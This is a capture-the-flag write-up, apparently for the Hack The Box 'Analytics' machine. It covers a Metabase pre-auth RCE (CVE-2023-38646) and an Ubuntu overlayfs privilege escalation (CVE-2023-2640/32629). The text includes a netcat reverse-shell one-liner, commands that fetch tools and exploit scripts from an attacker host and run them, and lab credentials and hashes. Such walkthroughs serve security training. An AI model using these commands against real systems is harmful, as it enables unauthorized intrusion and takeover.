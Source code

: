 # Analytics - Easy

```sh
sudo vim /etc/hosts
# add analytics.htb

nmap -T4 -p- -A -Pn -v analytics.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
    * 80/tcp - http - nginx 1.18.0

* The webpage on port 80 leads to <http://analytical.htb>, so we need to map this domain as well in ```/etc/hosts```

* The website is for 'Analytical', and the text on the webpage does not have any significant info; however, the source code shows a page for login at <http://data.analytical.htb> - we have to add this subdomain in ```/etc/hosts```

* This subdomain leads us to a page for Metabase login - we can check the source code for any indicators

* If we search for keyword 'version' in the source code for the login webpage, we can see that this is Metabase v0.46.6

* Googling for exploits associated with this version leads us to [CVE-2023-38646](https://www.exploit-db.com/exploits/51797) - this is a pre-auth RCE vulnerability:

    ```sh
    # download the exploit

    python3 metabase_0.46.6_exploit.py
    # we need to specify local IP, port and target IP, port

    nc -nvlp 4444
    # setup a listener

    python3 metabase_0.46.6_exploit.py -l 10.10.14.33 -p 4444 -P 80 -u http://data.analytical.htb
    # this gives us a shell from the exploit itself
    # but it is a limited shell, we can get a more functional shell

    # setup another listener on attacker
    nc -nvlp 4445

    # in metabase shell, use this reverse-shell one-liner - others do not work
    nc 10.10.14.33 4445 -e sh

    # we get a reverse shell on port 4445

    # we cannot upgrade to a stable reverse shell as we do not have python
    # limited shell features

    ls -la
    # we have a non-standard directory in /

    ls -la /home
    # only metabase user

    ls -la /home/metabase
    # user flag not found

    cd /metabase.db
    # here, we have 2 DB files
    # before moving it to our machine, we can try checking content with strings

    strings metabase.db.trace.db

    strings metabase.db.mv.db
    ```

* From the lengthy ```strings``` output, we get a few strings of interest:

    * we get a string 'metalytics@data.htbJJohnnyISmith' - the email 'metalytics@data.htb' is of interest, the latter could be username or password
    * we have a few bcrypt hashes mentioned - '$2a$10$HnyM8tXhWXhlxEtfzNJE0.z.aA6xkb5ydTRxV5uO5v7IxfoZm08LG' and '$2a$10$Wtzh/a3aa6rO1OYVXXi7V.BKVt9uEyx7gZ6MHxqdn7cFy17uCvWUa' - tried cracking but did not work
    * site running on <http://127.0.0.1:3000>
    * another email address 'metalytics@analytical.htb' given

* Enumerating further, we can use ```linpeas.sh```:

    ```sh
    # in attacker
    python3 -m http.server

    # in victim shell
    cd /tmp
    wget http://10.10.12.23:8000/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    ```

* Going through the output of ```linpeas```, under the environment variables section, we have a non-standard env var 'META_PASS' with value 'An4lytics_ds20223#'

* We can now try using the above password for new user 'metalytics':

    ```sh
    ssh metalytics@analytical.htb
    # use above password
    # it works

    ls -la
    # get user flag

    # we can check with linpeas for privesc

    uname -r
    # 6.2.0-25-generic
    
    cat /etc/lsb-release
    ```

* The box is running "Ubuntu 22.04.3 LTS"; googling for exploits related to this release give us results for [GameOver(lay) Ubuntu privesc - CVE-2023-2640 & CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) - we can try this exploit:

    ```sh
    wget https://raw.githubusercontent.com/g1vi/CVE-2023-2640-CVE-2023-32629/refs/heads/main/exploit.sh -O overlayfs-exploit.sh
    # download the exploit on attacker machine

    python3 -m http.server

    # fetch on target ssh session
    wget http://10.10.12.34:8000/overlayfs-exploit.sh

    chmod +x overlayfs-exploit.sh

    ./overlayfs-exploit.sh
    # we are root now

    cat /root/root.txt
    # root flag
    ```
